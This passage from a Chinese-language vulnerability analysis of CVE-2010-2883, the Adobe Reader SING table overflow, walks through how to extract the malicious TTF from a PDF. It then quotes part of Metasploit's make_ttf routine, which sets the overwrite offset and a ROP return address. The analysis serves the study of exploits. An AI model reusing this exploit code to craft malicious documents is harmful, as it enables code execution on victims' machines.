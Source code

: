 ![](https://bbs.pediy.com/upload/attach/202107/600394_WBMPUYCFMF4YTQG.png)

 

从上面这段代码判断可以得出一些简单的结论，TTF 文件中不存在 name 表，sing 表的`tableVersionMajor`等于`0`或者`0x100`。这种情况下会到达漏洞处。

 

其实前面还有一些判断条件我没有确定是什么意思，但目前只能分析到这个程度，虽然再花时间也能分析出来，但是会花费太长时间，所以我选择继续分析其他内容。

3. POC 分析
=========

3.1 TTF 文件
----------

### 3.1.1 文件结构

TTF 文件的提取可以使用 PDFStreamDumper，

 

![](https://bbs.pediy.com/upload/attach/202107/600394_T73KZQTB78D8S4J.png)

 

可以看到其中的 SING 字符串，如果查看 Stream Details 也能够看到这是一个 ttf 类型。然后右键选择 Save Decompressed Stream，在 010editor 中打开这个文件，可以直观的看到 TTF 的结构：

 

![](https://bbs.pediy.com/upload/attach/202107/600394_USFAQ9T7S43F42M.png)

### 3.1.2 msf exploit 中的 make_ttf

紧接着上面看到的 TTF 文件，看一下 msf 是怎么构建这个文件的：

```
def make_ttf
        ttf_data = ""
 
        # load the static ttf file
 
        # NOTE: The 0day used Vera.ttf (785d2fd45984c6548763ae6702d83e20)
        path = File.join( Msf::Config.install_root, "data", "exploits", "cve-2010-2883.ttf" )
        fd = File.open( path, "rb" )
        ttf_data = fd.read(fd.stat.size)
        fd.close
 
        # Build the SING table
        sing = ''
        sing << [
            0, 1,   # tableVersionMajor, tableVersionMinor (0.1)
            0xe01,  # glyphletVersion
            0x100,  # embeddingInfo
            0,      # mainGID
            0,      # unitsPerEm
            0,      # vertAdvance
            0x3a00  # vertOrigin
        ].pack('vvvvvvvv')
        # uniqueName
        # "The uniqueName string must be a string of at most 27 7-bit ASCII characters"
        #sing << "A" * (0x254 - sing.length)
        sing << rand_text(0x254 - sing.length)
 
        # 0xffffffff gets written here @ 0x7001400 (in BIB.dll)
        sing[0x140, 4] = [0x4a8a08e2 - 0x1c].pack('V')
 
        # This becomes our new EIP (puts esp to stack buffer)
        ret = 0x4a80cb38 # add ebp, 0x794 / leave / ret
```